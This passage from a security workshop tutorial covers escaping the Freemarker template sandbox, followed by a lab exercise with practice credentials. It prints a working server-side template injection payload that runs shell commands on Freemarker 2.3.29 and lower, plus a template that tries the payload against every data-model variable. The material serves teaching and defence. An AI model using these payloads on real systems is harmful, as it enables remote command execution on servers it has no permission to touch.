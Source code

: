 #### Universal method

Oleksandr Mirosh and Alvaro Muñoz are detailing in their paper Room for Escape various chains that are specific to web containers. These containers are Tomcat, Jetty, GlassFish, WebLogic and WebSphere. These are a great source of inspiration if you are looking to escape the sandbox other than Freemarker.

However if your objective is to exploit the current template engine, there is a universal payload (also from the same paper) that will work on Freemarker 2.3.29 and lower (Fixed in March 2020). You need to find a variable in the data model that is an object.

```xml
<#assign classloader=<<object>>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("whoami")}
```

Here is a template that will brute force all of the variables from the data model.
```
<#list .data_model as key, object_test>

<b>Testing "${key}":</b><br/>
<#attempt>

<#assign classloader=object_test.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

Shell ! ( 
${dwf.newInstance(ec,null)("id")}
)

<#recover>
failed
</#attempt>

<br/><br/>
</#list>
```

### Workshop exercise

For this exercise, connect to the web server [http://template-injection.gosec.co:8026/](http://template-injection.gosec.co:8026/).

The application is the same as the previous one with one important difference. It is configured with some very limited class filtering. You will not be able to use the Execute class directly.

To access the administrative features, use the credentials `admin` / `hackfest`.

Negative
: This application is very similar visually to the previous one. Verify that you are connected to the port `8026`.
